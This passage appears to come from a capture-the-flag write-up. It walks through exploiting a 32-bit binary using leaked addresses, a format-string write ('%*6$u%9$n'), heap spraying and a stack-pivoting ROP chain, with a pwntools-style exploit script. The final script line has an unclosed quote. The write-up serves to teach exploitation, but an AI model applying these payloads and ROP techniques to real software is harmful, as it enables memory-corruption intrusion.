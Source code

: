 ```
[*] PIE leak     : 0x565571d1
[*] ELF          : 0x56555000
[*] HEAP leak    : 0x5655a1c0
[*] LIBC  leak   : 0xf7fb3620
[*] LIBC         : 0xf7d89000
```

With those addresses at hand, we can now craft a ropchain in our `comment` chunk and try to pivot the stack into it.

We can again use the dynamic width trick to now write the address of our comment chunk into `ebp`, which parameter 9 points to.

```
%*6$u%9$n
```

This will take the address of `comment` from parameter 6 as width and then writes it to parameter 9.

```
0x565564b2 <+277>:	lea    esp,[ebp-0x8]
0x565564b5 <+280>:	pop    ecx
0x565564b6 <+281>:	pop    ebx
0x565564b7 <+282>:	pop    ebp
0x565564b8 <+283>:	lea    esp,[ecx-0x4]
0x565564bb <+286>:	ret
```

The prologue of main would then move the stack 8 bytes before our heap chunk, pop `ecx` from there and then loads `ecx-0x4` into `esp` again.

So we cannot directly pivot into our chunk. To get around this, we can first allocate a bigger `comment` chunk, fill it up with addresses to our final `comment` chunk, free it via `edit` and then trigger the stack pivot.

```python
# create a heap chunk filled with address to rop chain
payload = p32(HEAPLEAK+0x180+4)*(0x100)
add(b"A", 9, payload)
edit(2, "A", 9, "A")

POP1 = e.address + 0x15e6    
POPECXEAX = libc.address + 0x128124
POPEBX = e.address + 0x1022    
POPEDX = libc.address + 0x37375
SYSCALL = libc.address + 0x37765
POPESP = libc.address + 0x000262de

log.info("Send stage 1 ropchain")

rop = ""    
rop += p32(libc.symbols["gets"])    
rop += p32(POP1)
rop += p32(e.address + 0x4550)
rop += p32(POPESP)
rop += p32(e.address + 0x4550)
    
# write chunk address into stack pointer
payload = "%*6$u%9$n"

edit(1, payload, 9, rop)
writetofile()

# exit to trigger ropchain
r.sendline("5)
```
